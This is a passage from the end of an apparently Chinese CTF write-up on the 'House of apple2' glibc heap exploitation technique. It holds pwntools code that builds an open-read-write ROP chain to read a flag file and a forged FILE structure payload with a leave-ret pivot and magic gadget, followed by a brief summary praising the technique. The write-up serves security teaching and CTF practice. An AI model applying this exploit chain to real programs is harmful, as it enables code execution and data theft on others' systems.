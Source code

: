 ```plain
orw_addr=heap_base+0x2090
orw=b'./flag\x00\x00'
orw+=p64(pop_rdx_r12)+p64(0)+p64(chunk0-0x10)
orw+=p64(pop_rdi)+p64(orw_addr)
orw+=p64(pop_rsi)+p64(0)
orw+=p64(open_addr)

orw+=p64(pop_rdi)+p64(3)
orw+=p64(pop_rsi)+p64(orw_addr+0x100)
orw+=p64(pop_rdx_r12)+p64(0x50)+p64(0)
orw+=p64(read_addr)

orw+=p64(pop_rdi)+p64(orw_addr+0x100)
orw+=p64(puts_addr)

edit(9,orw)


pl=p64(0)+p64(leave_ret)+p64(0)+p64(io_all-0x20)
pl+=p64(0)*2+p64(0)+p64(orw_addr) #chunk0+0x48
pl+=p64(0)*4
pl+=p64(0)*3+p64(lock)
pl+=p64(0)*2+p64(chunk0+0xe0)+p64(0)
pl+=p64(0)*4
pl+=p64(0)+p64(wfile) 
pl+=p64(0)*0x1c+p64(chunk0+0xe0+0xe8)     #chunk0+0xe0
pl+=p64(0)*0xd+p64(magic_gadget)

edit(5,pl)#4
add(8,0x500,'bbbb')

add(10,0x440,'aaaa')

choice(add_idx)

sla('How much?\n',str(20))

itr()
```

## 总结

House of apple2至今仍然是 IO 利用中最好用的手法之一，只需要一次 largebin attack 的简便手法以及巧妙的 IO 函数调用链也是它至今仍全版本通用的秘方
